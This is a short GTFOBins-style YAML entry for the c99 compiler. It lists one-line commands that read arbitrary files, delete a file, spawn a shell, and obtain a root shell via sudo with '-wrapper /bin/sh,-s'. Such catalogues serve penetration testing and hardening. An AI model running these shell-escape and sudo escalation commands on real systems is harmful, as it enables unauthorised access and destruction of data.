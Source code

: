 functions:
  file-read:
    - code: |
        LFILE=file_to_read
        c99 -x c -E "$LFILE"
  file-write:  # XXX this should be file-delete
    - code: |
        LFILE=file_to_delete
        c99 -xc /dev/null -o $LFILE
  shell:
    - code: c99 -wrapper /bin/sh,-s .
  sudo:
    - code: sudo c99 -wrapper /bin/sh,-s .
---
